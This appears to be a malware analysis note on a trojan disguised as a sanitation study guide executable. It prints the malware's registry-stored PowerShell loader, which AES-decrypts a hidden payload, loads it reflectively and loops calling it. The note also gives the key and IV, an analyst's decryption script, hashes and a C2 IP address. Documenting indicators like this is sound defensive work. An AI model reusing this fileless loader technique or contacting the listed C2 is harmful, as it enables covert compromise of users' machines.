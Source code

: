 ### Occurrence

05-23-2023  

### File Information
File: Nyc-Sanitation-Study-Guide.exe  
Hash: af1f2b516ede83cf2699ba54113ce7a7d81d17040588746a19a1fa2ea41175d6  
Dynamic Analysis: https://tria.ge/230522-q6gbgagg86/behavioral2  

### Registry containing decryption method

```powershell
\REGISTRY\USER\S-1-5-21-4238149048-355649189-894321705-1000_Classes\fqm3y2qp1vu\shell\open\command\ = "powershell -command \"$A=New-Object System.Security.Cryptography.AesCryptoServiceProvider;$A.Key=@([byte]62,30,15,134,84,122,250,208,115,183,250,168,0,188,126,120,91,87,201,237,254,97,57,35,96,163,200,77,242,68,142,244);$A.IV=@([byte]15,138,1,202,196,91,7,147,249,50,27,42,35,91,58,138);$F=(get-itemproperty 'HKCU:\\Software\\Classes\\bysxepsbwlz').'(default)';[Reflection.Assembly]::Load($A.CreateDecryptor().TransformFinalBlock($F,0,$F.Length));$c=$null;while($true){try{$c=[hGte7wy8sZSg96YadN8LCrdzaqDdXwbKBt1Fkz7eKOTOH7F0mWPeUvyvmDsJNHs2GnW.IsEbZin2uIZw4UFcNe0bWHNFHljmSH8PzEIBdMtfBsW4BJJiofYR1QxK_Z1jmVUACyhBvVwRKipYDUYX0oVTC]::JsvzuZ7sRx8lF($c);}catch{};Start-Sleep -Seconds 20}\""	
```

### Re-creating the decryption method using the data stored in the registry

```powershell
$key = @([byte]62,30,15,134,84,122,250,208,115,183,250,168,0,188,126,120,91,87,201,237,254,97,57,35,96,163,200,77,242,68,142,244)
$iv = @([byte]15,138,1,202,196,91,7,147,249,50,27,42,35,91,58,138)
# saved hex data to a file called 'payload'
$content = Get-Content "payload" -Raw 
$encryptedBytes = new-object byte[] ($content.Length / 2)
for ($i=0;$i -lt $encryptedBytes.Length; $i++) {
    $encryptedBytes[$i] = [System.Convert]::ToByte($content.Substring($i*2, 2), 16)
}

$aes = New-Object System.Security.Cryptography.AesCryptoServiceProvider
$aes.Key = $key
$aes.IV = $iv
$aes.Mode = [System.Security.Cryptography.CipherMode]::CBC
$aes.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
$decryptor = $aes.CreateDecryptor()
$PE=$Decryptor.TransformFinalBlock($encryptedBytes, 0, $encryptedBytes.Length);
$aes.Dispose();
[system.io.file]::writeallbytes("payload2.dll", $PE);
```

### C2 Payload
Hash: ad88175040eec9c218961930a7a1fd7b5fcb831adbd6dbedde9c741dcdba8398  
C2: `http://23.29.115.186/`  
VT: https://www.virustotal.com/gui/file/ad88175040eec9c218961930a7a1fd7b5fcb831adbd6dbedde9c741dcdba8398/detection  
